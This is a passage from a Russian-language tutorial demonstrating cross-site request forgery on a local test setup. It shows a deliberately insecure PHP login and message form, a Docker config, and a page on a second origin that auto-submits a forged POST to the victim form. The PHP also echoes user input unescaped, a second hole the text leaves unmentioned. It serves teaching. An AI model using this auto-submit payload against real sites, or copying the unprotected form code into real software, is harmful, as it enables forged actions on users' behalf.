 За исключением отсутствия проверки пароля это вполне обычная ситуация для сайтов, когда мы просто записываем введённый email в сессию пользователя. Сессия же связывается с браузером с помощью cookie.
```php
<?php
    session_start();
    $sender = $_SESSION['email'];
    if (strlen($sender) === 0) {
        http_response_code(401);
        echo('Unauthorized');
        exit();
    }
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $message = $_POST['message'];
        $receiver = $_POST['receiver'];
        echo("Send $message to $receiver");
    }
?>
<p>Hello, <?php echo($sender) ?>!</p>
<form method="post">
    <input name="message" placeholder="message"><br>
    <input name="receiver" placeholder="receiver"><br>
    <button>Send</button>
</form>
```

Здесь мы проверяем залогинен ли пользователь (то есть есть ли в связанной с ним сессии email), и, если есть, то предоставляем ему формочку для отправки сообщения другому пользователю.
Теперь, что бы запустить проект используем docker-compose со следующим конфигом:
```yaml
version: '2'

services:
  my:
     image: php:7.0-apache
     volumes:
       - ./my:/var/www/html
     ports:
       - "4000:80"
```

Конечно, первые два файла кладутся в папку my, которая и подключается к контейнеру. Стартуем приложение через
```sh
$ docker-compose up
```
открываем в браузере http://localhost:4000/form.php получаем ошибку, заходим на [login](http://localhost:4000/login.php), вводим почту, всё. Теперь наш браузер авторизован на сайте и мы можем пользоваться формой.

## Зловред

Добавим в наш проект зловредный сайт, который разместим в папке bad и на другом домене: localhost:4001 [#bad](https://github.com/vporoshok/csrf-test/tree/bad). Для CSRF атаки нам не потребуется серверная часть, создадим простую html-страничку:
```html
<form id="form" method="post" action="http://localhost:4000/form.php">
    <input name="message" value="some spam"/>
    <input name="receiver" value="bob@mail.com"/>
</form>
<script>
    var form = document.getElementById('form');
    form.submit();
</script>
```
